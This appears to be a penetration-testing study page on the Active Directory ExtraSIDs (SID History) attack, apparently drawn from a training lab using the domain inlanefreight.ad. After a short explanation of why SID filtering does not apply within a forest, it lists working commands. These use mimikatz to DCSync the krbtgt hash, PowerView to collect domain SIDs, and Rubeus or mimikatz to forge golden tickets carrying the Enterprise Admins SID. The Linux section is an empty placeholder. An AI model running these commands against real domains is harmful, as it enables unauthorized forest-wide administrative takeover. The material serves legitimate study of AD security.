 By abusing the SID History attribute we can manipulate it to trick the AD into granting **unauthorized admin-level access**.

{% hint style="info" %}
**How does it work?**

1. Understand SID History: SIDs are unique numbers assigned to users and groups. When users move between domains the AD keeps theird old SIDs in SID history attribute, which can be exploited.
2. Why does it work in same AD Forest: SID filtering blocks cross-forest but not inside the same AD. So if attacker from child domain adds Enterpise Admin SID, AD sees them as Enterprise Admin.
{% endhint %}

#### ExtraSIDs Attack from Windows

```powershell
# DCSync
\mimikatz.exe "lsadump::dcsync /user:DEV\krbtgt" exit

# Get SID
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainSID
S-1-5-21-2901893446-2198612369-2488268720

# Get Enterprise Admins SID from Parent Domain
PS C:\Tools> Get-ADGroup -Identity "Enterprise Admins" -Server "inlanefreight.ad"

# Create golden ticket
PS C:\Tools> .\Rubeus.exe golden /rc4:992093609707726257e0959ce3e24771 /domain:dev.inlanefreight.ad /sid:S-1-5-21-2901893446-2198612369-2488268720 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /user:Administrator /ptt

# Create golden ticket with mimikatz
kerberos::golden /user:Administrator /domain:dev.inlanefreight.ad  /sid:S-1-5-21-2901893446-2198612369-2488268720 /krbtgt:992093609707726257e0959ce3e24771 /sids:S-1-5-21-2879935145-656083549-3766571964-519 /ptt
```

#### ExtraSIDs Attack from Linux

```
// Some code
```
